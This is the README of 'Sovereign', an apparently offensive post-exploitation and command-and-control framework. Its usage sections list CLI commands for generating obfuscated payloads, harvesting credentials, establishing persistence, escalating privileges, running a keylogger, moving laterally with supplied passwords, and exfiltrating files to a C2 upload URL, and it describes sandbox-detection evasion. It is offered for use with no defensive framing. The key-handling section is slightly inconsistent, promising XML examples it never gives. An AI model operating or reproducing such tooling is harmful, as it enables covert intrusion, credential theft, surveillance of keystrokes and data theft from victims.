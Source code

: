 # Sovereign Post-Exploitation Framework

This framework provides advanced post-exploitation capabilities with a focus on evasion and automation.

## Features

- **Enhanced Evasion Techniques**: Polymorphic code, sandbox detection, time-based evasion.
- **Advanced Post-Exploitation Modules**: Credential harvesting, persistence, 
-   privilege escalation, reconnaissance, data exfiltration, keylogging, lateral movement.
- **Secure Communication**: Encrypted communication between agent and C2 server.
- **Modular Design**: Easily add new modules and functionalities.
- **Logging and Reporting**: Detailed logging and report generation.

## Usage

### Setting Up the C2 Server

1. **Create a Python virtual environment and activate it**:
    python -m venv venv
    source venv/bin/activate 
# On Windows: venv\Scripts\activate

2. **Install the required dependencies**:
    pip install -r c2_server/requirements.txt

3. **Run the C2 server**:
    python c2_server/c2_server.py

### Using the CLI

The CLI provides various commands to interact with the framework.

#### List all registered agents:
    python cli/cli.py list_agents

#### Send a command to a specific agent:
    python cli/cli.py send_command --agent_id AGENT_ID --command "Your command here"

#### Generate an obfuscated payload for a specific platform:
    python cli/cli.py generate_payload --platform PLATFORM

#### Harvest credentials:
    python cli/cli.py harvest_credentials

#### Establish persistence:
    python cli/cli.py establish_persistence

#### Escalate privileges:
    python cli/cli.py escalate_privileges

#### Gather system information:
    python cli/cli.py gather_system_info

#### Exfiltrate data:
    python cli/cli.py exfiltrate_data --file_path /path/to/file --c2_url https://your-c2-server.com/upload

#### Start keylogger:
    python cli/cli.py start_keylogger --log_file_path /path/to/log_file

#### Move laterally:
    python cli/cli.py move_laterally --target_ip TARGET_IP --username USERNAME --password PASSWORD

### Example Commands

1. **Listing all registered agents**:
    python cli/cli.py list_agents

2. **Sending a command to a specific agent**:
    python cli/cli.py send_command --agent_id 1234-5678-9101-1121 --command "whoami"

3. **Generating a payload for Windows**:
    python cli/cli.py generate_payload --platform windows

4. **Harvesting credentials**:
    python cli/cli.py harvest_credentials

5. **Establishing persistence**:
    python cli/cli.py establish_persistence

6. **Escalating privileges**:
    python cli/cli.py escalate_privileges

7. **Gathering system information**:
    python cli/cli.py gather_system_info

8. **Exfiltrating data**:
    python cli/cli.py exfiltrate_data --file_path /path/to/file --c2_url https://your-c2-server.com/upload

9. **Starting a keylogger**:
    python cli/cli.py start_keylogger --log_file_path /path/to/log_file

10. **Moving laterally**:
    python cli/cli.py move_laterally --target_ip TARGET_IP --username USERNAME --password PASSWORD

### Logging and Reporting

Logs are stored in the c2_server.log file located in the c2_server directory. This file contains detailed information about agent activities and commands executed.

To generate a report from the logged data, run the following command:
    python c2_server/c2_server.py generate_report
This will create a report.txt file containing the logs. The report provides a comprehensive view of all interactions and events logged by the C2 server.

### Adding New Modules

To add new post-exploitation modules, create a new Python file in the c2_server/modules directory and implement the desired functionality. Update the CLI script to include commands for the new module.

### Key Generation and Conversion

#### RSA Key Generation
To generate a pair of RSA keys, you can use the OpenSSL toolkit. Run the following commands to generate a private key and a public key:

1. **Generate a private key:**
   openssl genpkey -algorithm RSA -out private_key.pem -pkeyopt rsa_keygen_bits:2048

2. **Extract the public key from the private key:**
   openssl rsa -pubout -in private_key.pem -out public_key.pem

#### AES Key Generation
To generate an AES key, you can use OpenSSL as well:

1. **Generate a 256-bit AES key:**
   openssl rand -base64 32 > aes_key.txt

#### Conversion to XML
For Sovereign-c2, you may need to convert these keys into XML format for MS Windows. Below are examples of how you might format the keys in XML.

### Secure Management of Keys
Ensure that keys are not stored in the repository. Instead, load them from secure storage at runtime. Below is an example of how you can load keys in a Python script:

import os
from cryptography.hazmat.primitives import serialization
from cryptography.hazmat.primitives.asymmetric import rsa

def load_private_key(path):
    with open(path, 'rb') as key_file:
        private_key = serialization.load_pem_private_key(
            key_file.read(),
            password=None,
        )
    return private_key

def load_public_key(path):
    with open(path, 'rb') as key_file:
        public_key = serialization.load_pem_public_key(key_file.read())
    return public_key

def load_aes_key(path):
    import xml.etree.ElementTree as ET
    tree = ET.parse(path)
    root = tree.getroot()
    aes_key = root.find('value').text
    return aes_key

private_key_path = os.getenv('PRIVATE_KEY_PATH')
public_key_path = os.getenv('PUBLIC_KEY_PATH')
aes_key_path = os.getenv('AES_KEY_PATH')

private_key = load_private_key(private_key_path)
public_key = load_public_key(public_key_path)
aes_key = load_aes_key(aes_key_path)

print("Keys loaded successfully.")

### Setting Up Environment Variables
You can set up environment variables to point to the key file paths:

#### Example .env File
PRIVATE_KEY_PATH=/path/to/private_key.pem
PUBLIC_KEY_PATH=/path/to/public_key.pem
AES_KEY_PATH=/path/to/aes_key.xml

### Running the Project
To run the project, follow the instructions below:

1. **Clone the repository:**
   git clone https://github.com/4lph4-01/share.git
   cd Sovereign-C2

2. **Install dependencies:**
   pip install -r requirements.txt

3. **Run the CLI:**
   python cli/cli.py

4. **Set up the environment variables:**
   export $(cat .env | xargs)

### Contribution

Contributions to the Sovereign framework are welcome. Please submit a pull request with a detailed description of your changes.

### By the way, we pwn things.....
